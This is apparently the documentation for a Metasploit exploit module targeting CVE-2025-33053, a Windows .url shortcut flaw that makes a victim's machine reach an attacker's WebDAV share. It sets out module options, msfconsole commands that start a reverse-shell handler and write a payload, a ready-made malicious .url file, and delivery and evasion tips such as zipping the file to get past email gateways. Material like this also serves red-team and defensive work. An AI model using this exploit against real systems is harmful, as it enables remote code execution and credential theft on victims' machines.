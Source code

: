 ## Vulnerable Application

CVE-2025-33053 - Internet Shortcut (.url) UNC Path Exploit

Windows improperly handles `.url` (Internet Shortcut) files referencing remote
UNC paths.
Specifically, `.url` files that specify a remote working directory
(`WorkingDirectory=\\attacker\webdav`) and a trusted executable (e.g.,
`iediagcmd.exe`)
may cause the system to access the attacker's server when opened.

This behavior can be exploited to:

- Trigger NTLM authentication leaks (SMB relay)
- Load remote payloads via WebDAV shares
- Attempt DLL sideloading if conditions allow

## Affected Versions

- Windows 10 22H2
- Windows 11 23H2
- Fully patched prior to June 2025 Patch Tuesday

## Verification Steps

1. Set up the WebDAV server.
2. Use the module to generate a `.url` file
3. Deliver the `.url` to the target (email, USB, zip)
4. On victim machine, open `.url`
5. Observe connection back to WebDAV server

## Overview

This module generates a malicious `.url` Internet Shortcut file that abuses
CVE-2025-33053 —
a vulnerability in how Windows handles `.url` files referencing remote UNC
paths.

When opened on a vulnerable system, the `.url` causes the system to connect to a
UNC path
(e.g., a WebDAV share), triggering an attempt to execute a trusted binary
from the attacker's location. This can result in RCE or credential leaks.

It supports:

- Auto-generating a reverse shell payload
- Hosting the payload in a WebDAV share
- Launching a Metasploit handler

## Module Information

**Module Name**: exploits/windows/fileformat/cve_2025_33053
**Authors**:

- Dev Bui Hieu

**Disclosure Date**: 2025-06-11
**License**: MSF_LICENSE
**Rank**: Normal

## Options

### GEN_PAYLOAD

Whether to generate payload and move to WebDAV directory (default: true)

### PAYLOAD_NAME

Output payload file name (default: route.exe)

### START_LISTENER

Whether to auto-start a Metasploit multi/handler (default: true)

### WEBDAV_DIR

WebDAV folder for payload and .url (default: /var/www/webdav)

### OUTFILE

Output .url filename (default: bait.url)

### LOLBAS_EXE

Path to a trusted executable to launch (default: iediagcmd.exe)

### ICON_PATH

Icon used for the shortcut (default: msedge.exe)

### ICON_INDEX

Index of the icon in the icon file (default: 13)

### MODIFIED_HEX

Modified timestamp value for the .url file (default: 20F06BA06D07BD014D)

## Scenarios

You can use this module in:

- Phishing simulations
- Red team operations
- Awareness training
- DLL sideloading test
- Drive-by UNC path abuse

## Example Usage

```
use exploits/windows/fileformat/cve_2025_33053
set LHOST 192.168.1.10
run
```

Optional:

```
set WEBDAV_DIR /var/www/webdav
set OUTFILE clickme.url
set PAYLOAD windows/x64/meterpreter/reverse_http
run
```

## Output

```
msf6 > use exploit/windows/fileformat/cve_2025_33053
[*] Using configured payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/fileformat/cve_2025_33053) > set LHOST 192.168.1.15
LHOST => 192.168.1.15
msf6 exploit(windows/fileformat/cve_2025_33053) > exploit
[*] Started reverse TCP handler on 192.168.1.15:4444 
[*] Creating WebDAV directory if not exists...
[*] Generating payload...
[+] Payload successfully written to /var/www/webdav/route.exe
[*] Generating .URL file...
[+] .URL file written to: bait.url
[*] Module complete. Deliver /home/kali/metasploit-framework/bait.url to victim.
```

Example .url file:

```
[InternetShortcut]
URL=C:\Program Files\Internet Explorer\iediagcmd.exe
WorkingDirectory=\\192.168.1.10\webdav\
ShowCommand=7
IconIndex=13
IconFile=C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
Modified=20F06BA06D07BD014D
```

## References

- [GitHub PoC](https://github.com/DevBuiHieu/CVE-2025-33053-Proof-Of-Concept)
- [NVD Entry](https://nvd.nist.gov/vuln/detail/CVE-2025-33053)
- [LOLBAS Project](https://lolbas-project.github.io)
- [Microsoft Advisory](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2025-33053)

## Notes

- Payload hosted via WebDAV must be reachable from the victim
- On patched systems, SmartScreen or Defender may block the connection
- Zip `.url` to evade email gateway protections
- Listener starts automatically if `START_LISTENER` is true
